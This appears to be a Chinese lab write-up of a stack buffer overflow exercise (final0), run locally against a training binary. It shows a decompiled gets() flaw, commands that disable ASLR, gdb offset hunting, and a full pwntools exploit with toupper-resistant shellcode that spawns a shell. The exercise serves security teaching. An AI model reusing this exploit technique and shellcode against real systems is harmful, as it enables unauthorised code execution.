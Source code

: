 # <center>栈溢出实验5</center>

## 实验概述

### 【目的】
1. 运行final0,反弹得到shell
### 【环境】
Linux
### 【工具】
python，gdb
### 【原理】
缓冲区溢出（buffer overflow），是针对程序设计缺陷，向程序输入缓冲区写入使之溢出的内容（通常是超过缓冲区能保存的最大数据量的数据），从而破坏程序运行、趁著中断之际并获取程序乃至系统的控制权。
## 实验步骤

### 【步骤】
#### final0
通过binwalk查看，是32位程序
```
$ binwalk final0

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB executable, Intel 80386, version 1 (SYSV)

```
用IDA pro打开，定位到关键函数
```
char *get_username()
{
  size_t v0; // eax@7
  char s[512]; // [sp+8h] [bp-210h]@1
  char *v3; // [sp+208h] [bp-10h]@1
  unsigned int i; // [sp+20Ch] [bp-Ch]@5

  memset(s, 0, 0x200u);
  gets(s);
  v3 = strchr(s, 10);
  if ( v3 )
    *v3 = 0;
  v3 = strchr(s, 13);
  if ( v3 )
    *v3 = 0;
  for ( i = 0; ; ++i )
  {
    v0 = strlen(s);
    if ( v0 <= i )
      break;
    s[i] = toupper(s[i]);
  }
  return strdup(s);
}
```
可以看到其中使用了gets()，存在溢出点，ret地址的偏移为0x210+4=532。
需要注意的是，函数中对每个字节都调用了toupper()进行转换，把字符数组中的小写字母转换成大写字母，即常规的shellcode会因为大小写转换而失效。
这里我们使用[shellcode](https://www.exploit-db.com/exploits/13460/)提供的不会因toupper()转换而失效的shellcode。

由于需要定位shellcode的地址，这里仍需关闭地址随机化，并开启core dump。
```
ulimit -c 1024
sudo sh -c "echo 0 > /proc/sys/kernel/randomize_va_space"
```
获取shellcode的地址。
```
$ ulimit -c unlimited
$ sudo sh -c "echo 0 > /proc/sys/kernel/randomize_va_space"
$ python -c "'a'*600" | ./final0 
$ gdb final0 core -q
gdb-peda$ x/10wx $esp-540
0xffffccd4:	0x00000007	0x41414141	0x41414141	0x41414141
0xffffcce4:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffccf4:	0x41414141	0x41414141

```
可以看到地址是0xffffccd8，到这就可以编写脚本了。
```
from pwn import *

io = process('./final0')

shellcode  = "\xeb\x29\x5e\x29\xc9\x89\xf3\x89\x5e\x08\xb1\x07"
shellcode += "\x80\x03\x20\x43\xe0\xfa\x29\xc0\x88\x46\x07\x89\x46\x0c"
shellcode += "\xb0\x0b\x87\xf3\x8d\x4b\x08\x8d\x53\x0c\xcd\x80"
shellcode += "\x29\xc0\x40\xcd\x80\xe8\xd2\xff\xff\xff"
shellcode += "\x0f\x42\x49\x4e\x0f\x53\x48"

payload = shellcode
payload += (532-len(shellcode))*'a'
payload += p32(0xffffccd8)


io.sendline(payload)
io.interactive()
```

```
$ python final0.py 
[+] Starting local process './final0': pid 4535
[*] Switching to interactive mode
$ echo u got it
u got it
$  

```
### 【总结】

本次实验主要在shellcode上发生了改变，可以考虑到在实际的漏洞利用中，shellcode需要根据实际情况做各种调整。
可以发现，要使栈溢出发生，要满足以下条件：

- 程序允许用户输入
- 程序对用户的输入长度不加检查

栈溢出攻击是最为普遍而又危害极大的漏洞，要防御栈溢出攻击，首先要有良好的编码功力，对于用户的输入数据要做严格的长度检查，避免使用危险的函数。